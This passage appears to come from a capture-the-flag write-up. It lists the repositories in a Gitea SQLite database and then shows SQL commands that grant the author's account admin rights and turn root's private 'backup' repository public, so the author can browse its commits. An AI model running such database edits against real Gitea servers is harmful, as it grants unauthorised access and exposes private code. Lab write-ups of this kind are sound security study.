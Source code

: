 ### Enumerating Repositories
```
sqlite> SELECT * FROM repository;
2|2|root|backup|backup|||0||master|1|0|0|0|0|0|0|0|0|0|0|1|0|0|0|0|0|0|0|0|25612|1|0|null|0||1618493101|1618494415
3|3|scones|cant-touch-this|cant-touch-this|Stop! Hammer time!||0||master|1|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|25864|1|0|null|0||1618494644|1625329352
4|1|hydra|hello-world|hello-world|Hello World||0||master|1|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|0|23233|1|0|null|0||1621615239|1621615240
```

As expected, we can see the user root does exist and has a backup repository. Now in order for us to be able to access it on gitea through our browser, we need to do two things:
- Gives us admin priveleges for gitea
- Makes the repository visible (just playing it safe)

This can be done by running the following commands:
```sqlite3
sqlite3 /var/lib/gitea/data/gitea.db update user set is_admin=1 where id=3;
UPDATE repository SET is_private=0 WHERE name='backup';
```

## Accessing gitea as Admin
Let's first search for all the repos that are present on the site. 

![admin-all-repos.png](attachments/admin-all-repos.png)

Navigating to root, we find nothing special in the first branch however the second one contains 4 commits.

![root-branch2-commits.png](attachments/root-branch2-commits.png)
